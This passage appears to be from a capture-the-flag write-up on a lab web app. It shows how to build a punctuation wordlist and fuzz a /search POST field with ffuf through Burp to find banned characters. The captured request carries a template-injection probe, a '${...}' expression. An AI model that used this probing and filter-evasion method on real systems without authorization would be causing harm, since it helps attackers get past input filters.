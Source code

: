 

```shell
for ((i=32; i<127; i++)); do [[ $(printf "\\$(printf %03o "$i")") =~ [[:punct:]] ]] && printf "\\$(printf %03o "$i")\n"; done > specialChars.txt
```


##### Fuzzing for banned chars using FFUF: {#fuzzing-for-banned-chars-using-ffuf}

-   Now that we have this I can fuzz the program using FFUF. There is one issue though, although it's possible to filter by regex with ffuf e.g. `-fr "banned"` this would filter out all results which contain the string "banned" meaning I would be left with what is allowed. However this is not that useful. The best course of action is to proxy via burp and then search for that string in burp.

-   First I copy the POST command from burpsuite.
    -   {{< figure src="/ox-hugo/2025-01-03-164901_.png" >}}



```shell
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: 10.129.227.207:8080' -H $'Content-Length: 71' -H $'Cache-Control: max-age=0' -H $'Accept-Language: en-US,en;q=0.9' -H $'Origin: http://10.129.227.207:8080' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://10.129.227.207:8080/search' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    --data-binary $'name=%24%7B%27patt%27.toString%28%29.replace%28%27a%27%2C+%27x%27%29%7D' \
    $'http://10.129.227.207:8080/search'
```

-   I then modify it to the below so it can be used with FFUF.



```shell
ffuf -u $'http://10.129.227.207:8080/search' -w ./specialChars.txt  -X $'POST' \
    -H $'Host: 10.129.227.207:8080' -H $'Content-Length: 71' -H $'Cache-Control: max-age=0' -H $'Accept-Language: en-US,en;q=0.9' -H $'Origin: http://10.129.227.207:8080' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://10.129.227.207:8080/search' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    --data-binary $'name=FUZZ' -x http://127.0.0.1:8080
```

-   **The most important additional/modifications are**:
    -   Setting the target url:
        -   `-u $'http://10.129.227.207:8080/search'`
    -   Specifying the custom worflist:
        -   `-w ./specialChars.txt`
    -   Modifying the POST data to include the keyword "FUZZ":
        -   `--data-binary $'name=FUZZ'`
    -   Proxying the requests via burpsuite:
        -   `-x http://127.0.0.1:8080`
